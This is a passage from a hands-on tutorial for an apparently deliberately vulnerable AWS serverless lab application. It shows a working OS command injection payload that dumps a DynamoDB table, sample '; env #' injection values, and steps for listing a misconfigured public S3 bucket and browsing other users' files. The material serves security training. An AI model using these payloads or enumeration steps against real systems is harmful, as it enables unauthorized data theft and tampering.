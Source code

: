 - dynamodb:BatchWriteItem
- dynamodb:BatchGetItem
- dynamodb:DescribeTable
```
These permissions will now allow us to exploit the OS command injection weakness, to exfiltrate data from the DynamoDB table, by abusing the `dynamodb:Scan` permission:

Let's use the following payload in the URL field, and see what happens:
```
https://; python -c 'import os;import boto3;print(boto3.resource("dynamodb").Table(os.getenv("TABLE_NAME")).scan())' #
```
**Bingo!** we got the entire contents of the table:
```
{ Items: [ { document_url: 'https://mmm; env #', id: '9737d9bd-02d5-11e9-8e7b-4f1a91d122d7', ip: 'XX.XXX.XXX.XX' }, { document_url: 'http://mmm; env #', id: 'b7c18b3a-02ed-11e9-a3d5-175f28e986d4'
...
...
```

**Extra Credit** You can use the same approach, to access and tamper data inside the S3 bucket. Try it!


### Lesson 5: Abusing Insecure Cloud Configurations ###
By now, we're sure you are well aware of the many publicly open S3 buckets out there. This happens when you deploy cloud resources without following security best-practices. The same thing exists in our application. We already know the name of the bucket used by the application - we got it in the BUCKET_NAME environment variable, and frankly, it wasn't that difficult to spot it in the redirect URL of the response to the convert operation:

`http://aws-serverless-repository-serverless-goat-bucket-{string}.s3-website-{region}.amazonaws.com/{uuid}`

So, the bucket is called: `aws-serverless-repository-serverless-goat-bucket-{string}`

Let's try to request it. Just paste the bucket name in the following format, in your browser's URL line: `http://aws-serverless-repository-serverless-goat-bucket-{string}.s3.amazonaws.com/`

You should get a full listing of the entire bucket contents. For example:
```xml
<?xml version="1.0" encoding="UTF-8"?>
<ListBucketResult xmlns="http://s3.amazonaws.com/doc/2006-03-01/"><Name>aws-serverless-repository-serverless-goat-bucket-{string}</Name><Prefix></Prefix><Marker></Marker><MaxKeys>1000</MaxKeys><IsTruncated>false</IsTruncated><Contents><Key>0858ac61-cdcf-486e-93c4-c05d31e58f93</Key><LastModified>2018-12-18T12:03:22.000Z</LastModified>
<ETag>&quot;ce1ed7ade5ee78fabeba4e31d307b67f&quot;</ETag><Size>2605</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>12776bf6-c034-4590-a1df-5dc8a5d9a810</Key><LastModified>2018-12-18T14:43:11.000Z</LastModified><ETag>&quot;f5c029f6b1af90e22f57a5cebbe14e47&quot;</ETag><Size>1942</Size><StorageClass>STANDARD</StorageClass></Contents><Contents><Key>14b7a569-6619-4117-8a01-4430b975b676</Key>
...
...
```
You can now try to browse other files in the bucket, belonging to other user's 'convert' operations by concatenating the uuid to the URL (that's the file name).
